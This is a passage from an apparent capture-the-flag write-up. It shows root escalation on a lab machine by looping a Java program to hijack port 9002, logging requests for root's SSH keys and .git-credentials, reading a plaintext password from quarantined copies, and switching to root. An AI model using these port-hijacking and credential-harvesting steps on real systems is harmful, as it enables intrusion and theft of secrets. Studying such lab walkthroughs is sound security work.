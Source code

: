 We can run a `while true` loop to continuously try and run our application and take over port 9002. It takes about 3-5 minutes.
```
developer@registry:~$ while true; do java -jar zon.jar 2>/dev/null; done  [+] Bound to 9002 
```

And we start getting hits on our web server:
```
b'zSCAN /root/.ssh/id_rsa\x00'
b'zSCAN /root/.ssh/authorized_keys\x00' 
b'zSCAN /root/.ssh/id_rsa.pub\x00'
b'zSCAN /root/root.txt\x00'
b'zSCAN /root/nginx/default\x00'
b'zSCAN /root/.git-credentials\x00'
b'zSCAN /root/tomcat-app/context.xml\x00'
b'zSCAN /root/tomcat-app/Dockerfile\x00'
b'zSCAN /root/tomcat-app/reset.sh\x00'
```

Looking at the `.git-credentials` was the same as before, credentials!
```
developer@registry:~$ find /dev/shm -name \*cred\*
/dev/shm/quarantine-run-2024-02-11T01:43:03.930332222/_root_.git-credentials
/dev/shm/quarantine-run-2024-02-11T01:42:04.474447799/_root_.git-credentials
/dev/shm/quarantine-run-2024-02-11T01:41:04.196769769/_root_.git-credentials

developer@registry:~$ cat /dev/shm/quarantine-run-2024-02-11T01:43:03.930332222/_root_.git-credentials
https://admin:52nWqz3tejiImlbsihtV@github.com
```

Using that I was able to log in as root!
```
developer@registry:~$ su root
Password: 52nWqz3tejiImlbsihtV
root@registry:/home/developer# cat /root/root.txt 
```
